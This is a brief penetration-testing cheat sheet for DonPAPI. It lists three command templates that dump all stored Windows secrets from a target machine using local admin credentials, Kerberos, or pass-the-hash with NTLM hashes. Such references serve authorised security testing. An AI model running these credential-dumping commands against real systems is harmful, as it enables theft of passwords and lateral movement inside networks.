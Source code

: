 # DonPAPI

% DonPAPI, dpapi

#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## DonPAPI - Dump all secrets of the target machine with Local Admin
```
DonPAPI -local_auth <user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (kerberos)
```
DonPAPI -k <domain>/<user>@<target>
```

## DonPAPI - Dump all secrets of the target machine with Local Admin (pth)
```
DonPAPI --hashes <LM>:<NT> <domain>/<user>@<target>
```
